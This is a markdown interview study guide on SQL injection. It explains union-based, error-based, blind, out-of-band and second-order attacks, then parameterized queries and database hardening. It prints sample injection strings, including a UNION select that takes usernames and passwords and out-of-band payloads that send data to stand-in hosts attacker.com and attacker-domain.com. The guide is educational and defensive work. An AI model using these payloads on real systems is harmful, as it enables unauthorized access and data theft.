

# SQL Injection (SQLi) Mechanics, Variations & Database Hardening

> **Domain:** Core Computer Science & Application Security  
> **Sub-Domain:** DBMS & SQL Security  
> **Interview Importance:** Critical / Mandatory Cybersecurity Interview Topic  

---

## 1. Topic & Definitions

- **SQL Injection (SQLi):** An application-layer security vulnerability (CWE-89) where an attacker crafts input containing malicious SQL syntax that alters the logic of backend database queries executed by the application.
- **The Fundamental Root Cause:** The failure to maintain a strict boundary between the **Code Plane** (SQL instructions) and the **Data Plane** (user-supplied parameters). When user input is dynamically concatenated into a SQL string, the database interpreter treats untrusted data as executable command syntax.
- **Prepared Statements / Parameterized Queries:** A programmatic defense where the SQL query template is compiled by the database engine prior to binding user parameters, guaranteeing that user input is treated strictly as literal data, never as executable SQL code.

---

## 2. SQL Injection Taxonomy & Attack Vectors



### 1. In-Band SQLi
The attacker uses the exact same channel of communication to launch the attack and receive results.
- **Union-Based SQLi:** Exploits the SQL `UNION` operator to append results from another table to the application's original query.
  ```sql
  -- Original: SELECT id, title, description FROM products WHERE category = 'books'
  -- Injected input: books' UNION SELECT null, username, password FROM users--
  ```
  *Requirement:* The injected `SELECT` must have the exact same number of columns and compatible data types as the original query.
- **Error-Based SQLi:** Intentionally triggers database engine runtime errors (e.g., divide by zero, type conversion error) designed to reflect sensitive data in the database error message returned to the user.
  ```sql
  ' AND 1=CONVERT(int, (SELECT @@version))--
  -- Error returned: "Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2022' to data type int."
  ```

---

### 2. Inferential / Blind SQLi
The application returns no data and no database errors on screen. The attacker must reconstruct data bit-by-bit by asking True/False questions.
- **Boolean-Based Blind:** The attacker injects SQL conditions (`AND 1=1` vs `AND 1=2`). If True, the webpage renders normally; if False, the page returns a generic error or missing content.
  ```sql
  SELECT * FROM users WHERE id = 1 AND (SUBSTRING((SELECT password FROM users WHERE id=1), 1, 1) = 'a')
  ```
- **Time-Based Blind:** The attacker injects time delay functions. If the condition is True, the database sleeps for 5 seconds before responding.
  ```sql
  -- MySQL:    ' OR IF(MID(@@version,1,1)='8', SLEEP(5), 0)--
  -- Postgres: '; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
  -- MSSQL:    '; IF (1=1) WAITFOR DELAY '0:0:5'--
  ```

---

### 3. Out-of-Band (OOB) SQLi
Used when the application is completely blind and asynchronous (no time delays visible). The attacker forces the database server itself to trigger a DNS query or HTTP request to an attacker-controlled listener:
```sql
-- MSSQL OOB via SMB/DNS lookup
'; EXEC master..xp_dirtree '\\attacker-domain.com\share';--
-- Oracle OOB via HTTP request
'; SELECT UTL_HTTP.REQUEST('http://attacker.com/' || (SELECT user FROM DUAL)) FROM DUAL;--
```

---

### 4. Second-Order SQLi
The attacker submits malicious SQL that is safely stored in the database without immediate execution (e.g., registering username `admin'--`). Later, when a secondary administrative feature reads that username from the database and concatenates it into an unparameterized query, the injection executes.

---

## 3. The Definitive Defense: Parameterized Queries (Prepared Statements)

### Why Parameterization Works (Internal Mechanism)
1. **Compilation Phase:** The application sends the query template to the database engine:
   ```sql
   PREPARE stmt FROM 'SELECT id, username FROM users WHERE email = ? AND password_hash = ?';
   ```
   The database parses the syntax, compiles the abstract syntax tree (AST), and locks down the execution logic.
2. **Execution Phase:** The application sends the parameters as raw data:
   ```text
   Param 1: "alice@example.com"
   Param 2: "' OR '1'='1"
   ```
3. **The Result:** Even though Param 2 contains `' OR '1'='1`, the database engine treats it as a single literal string of text to compare against the `password_hash` column. It **cannot alter the query grammar**.

---

## 4. Comprehensive Defense-in-Depth for Databases

```text
+─────────────────────────────────────────────────────────────────────────────+
|                     DATABASE DEFENSE-IN-DEPTH MATRIX                        |
+─────────────────────────────────────────────────────────────────────────────+
| Primary Defense:      | Parameterized Queries / Prepared Statements / ORMs  |
|                       | (Mandatory across 100% of codebase)                 |
|───────────────────────┼─────────────────────────────────────────────────────|
| Secondary Defense:    | Strict Input Validation (Allowlisting types/formats)|
|───────────────────────┼─────────────────────────────────────────────────────|
| Principle of Least    | Dedicated non-admin DB users (Revoke DROP, ALTER,   |
| Privilege:            | xp_cmdshell; grant only SELECT/INSERT where needed) |
|───────────────────────┼─────────────────────────────────────────────────────|
| Cryptographic Defense:| Transparent Data Encryption (TDE) at rest,          |
|                       | TLS 1.3 in transit, salted password hashes (Argon2id)|
|───────────────────────┼─────────────────────────────────────────────────────|
| Network Boundaries:   | Bind DB to localhost (127.0.0.1) or private VPC;    |
|                       | Block external WAN access (Ports 3306, 5432, 1433)  |
|───────────────────────┼─────────────────────────────────────────────────────|
| Detection & WAF:      | Web Application Firewall (WAF) inspecting URI       |
|                       | parameters; SIEM alerting on high DB error rates    |
+─────────────────────────────────────────────────────────────────────────────+
```

---

## 5. Interview Takeaway: What to Say Under Pressure

### 🎙️ 60-Second Elevator Pitch
> *"SQL Injection occurs when untrusted user input is concatenated into a SQL statement, allowing the user to break out of the data context and alter query logic. Attacks range from In-Band Union and Error-based techniques, to Inferential Boolean and Time-based blind attacks, to Out-of-Band DNS exfiltration. The definitive, non-negotiable defense is Parameterized Queries (Prepared Statements). By pre-compiling the SQL statement before binding parameters, the database engine formally separates the code plane from the data plane, guaranteeing user input is treated strictly as literal data. Secondary hardening requires database least privilege, network firewalls, and avoiding dynamic query concatenation in stored procedures."*

### ⚠️ Common Traps & Gotchas
- **Trap:** Claiming "Sanitizing input by removing single quotes is sufficient."  
  *Correction:* Character blacklisting is notoriously flawed and bypassable via encoding, numeric injections (`WHERE id = 1 OR 1=1` requires no quotes), or Unicode tricks. Parameterization is the only complete mathematical solution.
- **Trap:** Assuming Stored Procedures are inherently immune to SQLi.  
  *Correction:* Stored procedures are safe **only if parameterized**. If a stored procedure builds a query internally using dynamic string concatenation (`EXECUTE IMMEDIATE 'SELECT ...' || user_input`), it is just as vulnerable to SQL injection as application code.
